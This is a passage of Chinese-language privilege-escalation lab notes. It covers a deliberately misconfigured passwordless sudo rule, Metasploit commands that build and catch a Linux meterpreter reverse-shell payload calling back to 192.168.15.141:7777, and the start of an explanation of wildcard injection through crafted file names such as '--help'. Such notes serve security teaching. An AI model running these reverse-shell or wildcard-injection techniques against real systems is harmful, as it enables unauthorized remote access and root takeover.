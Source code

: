 ```
这个sudo漏洞的前提就是设置了不输入密码所导致的。
使用root用户配置/etc/sudoer，设置henry可以使用sudo使用sudo执行所有命令，并且不用密码。
```

![image-20241018104713978](操作系统提权/image-20241018104713978.png)		

```
配置好这个漏洞环境后，使用msf上线。
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=7777 -f elf > mshell.elf
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.15.141
set lport 7777
run
```

```
使用sudo来执行提权命令后就变成root了。
```

![image-20241018105414664](操作系统提权/image-20241018105414664.png)	

### 通配符ws提权

```
接下来介绍一个非常有趣而又古老的技术通配符注入提权，首先先看下什么是通配符，在LINUX中通配符可以被用来模糊匹配，而且通配符的输入是由当前用户的shell去进行解析
*   代表任意数量的字符
?   字符代表单个字符  
[] 匹配括号中的任意单一字符 可以使用连字符-表示范围，比如[0-9]
```

```
比如说创建三个文件，其中有一个文件名是--help
如果我们使用通配符ls *,其实本质上就是ls file1;ls file2;ls --help,--help是一个关键参数，所以利用这一点可以实现提权漏洞。
```
